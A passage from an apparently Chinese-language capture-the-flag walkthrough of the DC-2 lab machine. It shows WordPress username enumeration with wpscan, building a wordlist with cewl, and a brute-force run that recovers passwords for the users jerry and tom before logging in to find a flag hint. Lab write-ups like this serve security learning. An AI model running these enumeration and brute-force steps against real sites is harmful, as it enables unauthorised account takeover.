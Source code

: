 ```
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
列出 username
```
┌──(chw㉿CHW)-[~]
└─$ cat username.txt                        
admin
jerry
tom
```
### 4. crewl
cewl 根據網站產生字典檔
```
┌──(chw㉿CHW)-[~]
└─$ cewl -w custom_wordlist.txt http://dc-2/

┌──(chw㉿CHW)-[~]
└─$ cat custom_wordlist.txt                 
sit
amet
nec
quis
vel
orci
site
...
```
### 5. wpscan 暴力破解
```
┌──(chw㉿CHW)-[~]
└─$ wpscan --url http://dc-2/ -U username.txt -P custom_wordlist.txt --force
...
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

```
> `jerry`:`adipiscing`\
> `tom`:`parturient`

### 6. 登入 Wordpress
在 Jerry 管理頁面中找到 /Flag2 Page
![image](https://hackmd.io/_uploads/BJnYAQ_3kl.png)
> 找到 Flag 2 的提示，但還是沒有利用點\
> 決定 nmap 掃描全部 port
